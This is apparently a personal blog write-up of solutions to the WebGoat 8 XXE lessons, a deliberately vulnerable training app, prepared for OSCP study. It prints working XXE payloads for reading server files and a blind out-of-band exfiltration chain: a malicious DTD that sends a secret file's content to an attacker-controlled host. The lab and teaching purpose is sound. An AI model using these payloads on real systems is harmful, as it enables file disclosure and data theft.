 Title: Road to OSCP: WebGoat XXE challenges
Date: 2020-02-28
Category: OSCP
Tags: websec, webgoat, xxe
Summary: Solutions for WebGoat 8 XXE tasks
Status: published

#### Intro: simple xxe (as dubbed by authors)
We should abuse XXE vulnerability to list root directory content on the server.
The only entry point is a comment field under some poor cat's photo which got a hanger around his neck :)  
Upon clicking on submit button, client app makes a request with `Content-Type` header set to `application/xml` hence the request body contain XML payload.
It's not a sort of convoluted document, just a couple of tags:
```xml
<?xml version="1.0"?>
<comment>  
  <text>hi there lil cat</text>
</comment>
```


Solution is almost straightforward and based on previous section about XXE:
```
<?xml version="1.0"?>
<!DOCTYPE foo [<!ENTITY ex SYSTEM "file:/">]>
<comment>
  <text>&ex;</text>
</comment>
```

Result:
```json
{
  "lessonCompleted" : true,
  "feedback" : "Congratulations. You have successfully completed the assignment.",
  "output" : null,
  "assignment" : "SimpleXXE"
}
```

Here we instruct XML parser to include content of provided SYSTEM identifier that points to root directory.
It could be assumed that SYSTEM identifier means just an URI to some kind of resource, theoretically it could use any scheme such as http or ftp, it our case we need a local directory content hence scheme is `file`.  
Omitted trailing slashes does not seem to have any effect in that case, it will work either with `file:///` or with `file:/`.
As far as I know one constraint to this kind of identifiers is that they should not contain URI fragments - parts that go after a sharp (#).
For example `http://foo.bar/?a=b#baz` is fragmented and `http://foo.bar/?a=b` is not.

----------------------------------------------

#### Modern REST framework
We provided with exact same form as in the previous example but with other endpoint used. This form send JSON data when adding a comment, but even the URI implies that not the only JSON could be processed at the back-end :)  
As usual, we have to use intercepting proxy (or browser's developer tools) to tamper the request and perform XXE. But we need to change `Content-Type` header value from `application/json` to `application/xml`.
This will allow us to perform attack that very similar to previous one. A little caveat here could is that we do not know what elements should be contained in the XML document, but application proudfully give us an useful
exception if we provide something unexpected for it:
```json
{
  "lessonCompleted" : false,
  "feedback" : "You are posting XML but there is no XXE attack performed",
  "output" : "<SNIP>unexpected element (uri:\\\"\\\", local:\\\"text\\\"). Expected elements are <{}comment>]<SNIP>"
}
```

Expected input is pretty much like in the previous assignment:
```xml
<!DOCTYPE foo [<!ENTITY bar SYSTEM "file:/">]>
<comment>
  <text>&bar;</text>
</comment>
```

----------------------------------------------

#### Blind XXE assignment
Again, the exact same form, but we need to exfiltrate local file content from the server leveraging blind XXE vulnerability. From the previous lesson it's clear that we have to use some server to host our malicious DTD which will be included in payload.
In case of WebGoat 8 it's a good choice to use WebWolf again. It has a request logging capability and provide us with ability to upload arbitrary files for further use.  
Let's check whether the application is vulnerable. Issue request with body similar to this:
```xml
<?xml version="1.0"?>
<!DOCTYPE e [
  <!ENTITY foo SYSTEM "http://localhost:9090/pwned.dtd">
]>
<comment>
  <text>&foo;</text>
</comment>
```
Hooray, we've got a request in WebWolf log! It's indeed vulnerable, now we have to exfiltrate secret key from the server. We may do it using OOB (out-of-band) channel, in our case simplest is the request URI itself. So we need to construct such an entity that will reference URI like `http://localhost:9090/<SECRET_FILE_CONTENT>`. It's not that hard, we have to do three steps:  
 1. Construct DTD file which read secret file and declare entity with crafted URI based on this content
 2. Upload that DTD to controlled server which attacked application can access. In our case it's WebWolf
 3. Craft or tamper comment posting request so that we will include DTD from our server which afterwards will try to include another one exfiltrating file content

Time to practice. Little bit of googling and we've got a malicious DTD:
```xml
<!ENTITY % data SYSTEM "file:///home/webgoat/.webgoat-v8.0.0-SNAPSHOT/XXE/secret.txt">
<!ENTITY % p "<!ENTITY exf SYSTEM 'http://localhost:9090/%data;'>">
```
Pretty straightforward, `data` entity points to local file (got path from the assignment definition) and `p` entity points to inexistent web resource which URI contains acquired file content. Second step is quite simple - upload it to WebWolf and it will provide you with the link. In my case I uploaded it as `pwndtd.dtd` and link was `http://localhost:9090/files/theuser/pwndtd.dtd`.  
Now we need to craft proper request. As earlier, use Burp/ZAP/browser devtools or whatever you want.  
Final request will look like this:
```xml
<?xml version="1.0"?>
<!DOCTYPE e [
  <!ENTITY % bar SYSTEM "http://localhost:9090/files/theuser/pwndtd.dtd"> %bar; %p;
]>
<comment>
  <text>&exf;</text>
</comment>
```
##### Explanation:
We declared external entity that points to our uploaded DTD. This DTD contain declaration for `data`, `p` and `exf` entities, of which we reference here two - `p` and `exf`.
All the entities except `exf` are [parameter entities](https://dtd.nlm.nih.gov/publishing/tag-library/2.3/n-xt60.html) which could be referenced in `DOCTYPE` definition. We reference `p` which contain definition for `exp` that uses `data` parameter entity that reads secret file. May sound intimidating, but it's not that hard. All we need to do is to use `exf` entity to get file content.  
After all WebWolf will show that there was a request to `http://localhost:9090/WebGoat%208.0%20rocks...%20(KOQWMLvnhf)`, urldecode the path and use 'WebGoat 8.0 rocks... (KOQWMLvnhf)' phrase to complete the assignment.
